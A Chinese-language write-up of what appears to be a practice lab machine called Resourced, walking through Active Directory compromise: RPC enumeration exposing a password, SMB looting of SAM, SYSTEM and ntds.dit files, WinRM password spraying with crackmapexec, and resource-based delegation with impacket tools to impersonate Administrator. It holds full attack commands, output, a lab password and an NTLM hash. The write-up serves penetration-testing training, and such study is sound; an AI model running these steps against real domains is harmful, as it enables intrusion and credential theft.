## nmap



## RPC

rpc存在匿名认证登录，登陆之后可以枚举一些信息，扩展有关用户及其描述的信息量中有一个给新人的提示



```
HotelCalifornia194!
```

## SMB

使用匿名访问smb没有可以访问的信息

尝试使用RPC枚举出的用户和提示信息来访问smb



该提示信息就是`V.Ventz`的密码，但是该用户不能远程登录



访问`Password Audit`目录，将其中的内容下载下来



|          | 位置                              | 作用                                                         |
| -------- | --------------------------------- | ------------------------------------------------------------ |
| sam      | C:\Windows\System32\config\SAM    | 存储本地用户账户信息（**NTLM**）                             |
| system   | C:\Windows\System32\config\SYSTEM | 它包含解密 SAM 所需的加密密钥                                |
| ntds.dit | C:\Windows\NTDS\NTDS.dit          | Active Directory 的数据库文件,存储整个域的用户账户、组、计算机、组策略、密码哈希等,只能在 **域控制器（Domain Controller）** 上找到 |

可以破解ntds.dit，得到密码的NTLM值，可以直接使用NTLM值登录



但是尝试管理员登录之后这期中的NTLM值应该有过期和错误的，使用awk将其中的账号和密码进行分离，然后使用`crackmapexec`爆破`winrm`



```
crackmapexec winrm 192.168.168.175 -u users -p password --continue-on-success --no-bruteforce

--no-bruteforce		会将每个用户与相应密码进行匹配，不会尝试所有组合
--continue-on-success  成功之后不会停止，继续爆破
```

爆破得到一个可以远程登录的账号密码



## 提权



可以使用基于资源的委派攻击


创建新机器

```
addcomputer.py resourced.local/l.livingstone -dc-ip 192.168.168.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'r4j3sh$' -computer-pass 'Rajesh@Mondal'
```



现在我将使用 getST.py 获取 RESOURCEDC 的服务票据。

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "r4j3sh$" -dc-ip 192.168.168.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] r4j3sh$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     r4j3sh$      (S-1-5-21-537427935-490066102-1511301751-4101)
```

服务票据已保存到我们的工作目录中，文件名为 Administrator.ccache

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ getST.py -spn cifs/resourcedc.resourced.local -impersonate Administrator resourced/r4j3sh\\$:'Rajesh@Mondal' -dc-ip 192.168.168.175 
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

添加到我们的 kerberos 缓存文件。

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ export KRB5CCNAME=$PWD/Administrator.ccache
```

可以使用`klist`查看已经缓存的票据，要使用`klist`需要安装`Kerberos`工具包

`apt install krb5-wallet-server`

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ klist
Ticket cache: FILE:/home/kali/offsec/resourced/Administrator.ccache
Default principal: Administrator@resourced

Valid starting       Expires              Service principal
01/07/2024 08:42:23  01/07/2024 18:42:22  cifs/resourcedc.resourced.local@RESOURCED.LOCAL
        renew until 01/08/2024 08:42:22
```

需要将`resourcedc.resourced.local`添加到`/etc/hosts`中


